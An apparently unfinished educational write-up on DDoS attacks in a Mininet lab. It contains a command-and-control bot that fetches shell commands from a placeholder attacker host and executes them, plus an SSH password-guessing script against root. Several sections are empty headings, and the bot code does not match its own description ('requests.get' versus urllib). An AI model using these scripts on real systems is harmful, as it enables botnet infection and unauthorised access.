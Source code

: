 ```yaml
---
title: "Anatomy of a DDoS Attack: From Host Infection to Service Denial"
authors:
  - STANISLAS Mélanie
  - BILLY Maxime
---
```


# Introduction

Understanding the mechanisms of Distributed Denial of Service (DDoS) attacks is crucial in cybersecurity. This paper explores the lifecycle of a DDoS attack, from the initial infection of hosts to the denial of service for a website. 

# Summary

1. [The Sandbox](#The-Sandbox)
2. [Building a simple virus](#Building-a-simple-virus)
2. [Host Compromise](#Host-Compromise)
3. [Launching the Attack](#Launching-the-Attack)
4. [Demo](#Demo)
5. [Forensics](#Forensics)

# The Sandbox

In this chapter, we describe the setup and tools used to emulate and monitor the DDoS attack environment.

## Network Emulation with Mininet

We use Mininet to create a virtual network for our DDoS attack simulation. Mininet allows us to emulate a realistic network topology with minimal hardware requirements.

### Network Topology

Our network topology consists of the following components:

- **1 Attacker Host** (red): This host first infects its victims and then controls them.

- **3 Compromised Hosts** (orange): These hosts are infected and used to generate attack traffic.

- **1 Server Host** (blue): The target of the DDoS attack.

- **1 Client Host** (green): This host attempts to connect to the server and experiences the effects of the DDoS attack.

The network topology can be visualized as follows:

![](https://raw.githubusercontent.com/ozeliurs/SDN-Security/main/papers/.assets/sandbox-network-diagram.jpg)

We create the network with the following python script:

```python
from mininet.net import Mininet
from mininet.node import Controller, OVSSwitch
from mininet.link import TCLink
from mininet.cli import CLI
from mininet.log import setLogLevel

def create_network():
    # Create a network
    net = Mininet(controller=Controller, link=TCLink, switch=OVSSwitch)
    
    # Add a controller
    net.addController('c0')
    
    # Add switches
    s1 = net.addSwitch('s1')
    s2 = net.addSwitch('s2')
    s3 = net.addSwitch('s3')
    
    # Add hosts and links to s1
    h1 = net.addHost('h1')
    h2 = net.addHost('h2')
    net.addLink(h1, s1, bw=200)
    net.addLink(h2, s1, bw=100)
    
    # Add hosts and links to s2
    h3 = net.addHost('h3')
    h4 = net.addHost('h4')
    net.addLink(h3, s2, bw=100)
    net.addLink(h4, s2, bw=100)
    
    # Add hosts and links to s3
    h5 = net.addHost('h5')
    h6 = net.addHost('h6')
    net.addLink(h5, s3, bw=100)
    net.addLink(h6, s3, bw=100)
    
    # Add links between switches
    net.addLink(s1, s2, bw=1000)
    net.addLink(s2, s3, bw=1000)
    
    # Start the network
    net.start()
    
    # Open the Mininet CLI
    CLI(net)
    
    # Stop the network
    net.stop()

if __name__ == '__main__':
    setLogLevel('info')
    create_network()
```

## Monitoring Tools

To monitor and analyze the network traffic and performance, we use `bwm-ng` (Bandwidth Monitor NG) to monitor the throughput on network interfaces. This helps us understand the volume of traffic generated during the attack.

We also use `tcpdump` to capture and analyze packets on the network. It provides detailed insights into the nature of the traffic and helps in understanding the attack patterns and the commands between compromised hosts and the command and control server.

# Building a simple virus

We will need to control the hosts in the future. To do so, we will create a simple virus that connects to a command and control server to receive commands.

```python
import time
import urllib.request
import subprocess

url = "http://<ATTACKER_IP>"

while True:
    response = urllib.request.urlopen(url)
    command = response.text.strip()

    if command:
        subprocess.call(command, shell=True)
    
    time.sleep(10)
```

This script runs indefinitely, it retrieves the command from the command and control server (`requests.get(url)`) and executes it (`subprocess.call(command, shell=True)`). The script then sleeps for 10 seconds between each command execution.

The idea is that the attacker can host a simple page that will be read by the virus to execute commands on the compromised hosts.

# Host Compromise

In this chapter, we describe examples of how hosts can be compromised and infected with malware to participate in a DDoS attack.

## Phishing

## Exploiting a Vulnerability (e.g., Log4j)

## Weak Passwords && Configuration

Finally, to compromise the last host we will take advantage of the weak password configured for an ssh server.

We can make a simple dictionary attack with the following script:

```python
import paramiko

host = "<SERVER_IP>"
port = 22
username = "root"
passwords = ["root", "toor", "admin"]

for password in passwords:
    try:
        client = paramiko.SSHClient()
        client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        client.connect(host, port=port, username=username, password=password)
        print(f"Successfully connected to {host} with password: {password}")
        break
    except paramiko.AuthenticationException:
        print(f"Failed to connect to {host} with password: {password}")
```

This script tries to connect to the server with the provided passwords. If the connection is successful, it prints the password used to connect.

This shows the threat of weak passwords or weakly configured services in compromising hosts.

### Mitigation

To mitigate the risk of weak passwords, it is essential to enforce strong password policies.

Even better for SSH, you can use public key authentication and disable password authentication.

Finally, it is also recommended to use tools like `fail2ban` to block brute force attacks.

# Launching the Attack

# Demo

# Forensics

# Conclusion and Mitigation

# Sources